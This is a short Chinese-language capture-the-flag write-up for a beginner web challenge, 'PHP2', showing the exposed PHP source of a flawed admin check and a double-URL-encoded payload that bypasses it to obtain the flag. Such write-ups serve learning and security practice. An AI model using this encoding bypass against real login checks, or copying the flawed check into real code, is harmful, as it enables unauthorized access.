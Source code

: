 # PHP2

难度系数: 1.0

一开始, 只有下面的要求:

`Can you anthenticate to this website?`

authenticate 被写成 anthenticate 让我还以为是作者的什么用意 ?!

尝试了几个常用的: robots.txt, index.php, login.php... 都没有收获.

就在感到绝望的时候,突然想到 phps, 果然, index.phps 有 source code.

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

其实 phps 是 php 的原代码, 应该是经验让我想到这个把. 我想如果用 dirsearch 应该也会得到这个页面.

这段代码挺简单的. 如果 id 的值等于 admin 返回 not allowed! 如果 id 的 urldecode 等于 admin 返回 flag.

这里我们只需要注意 id 将 urlencode 2 次, 因为在 url 中已经有一次自动的 urldecode.

payload: `?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`
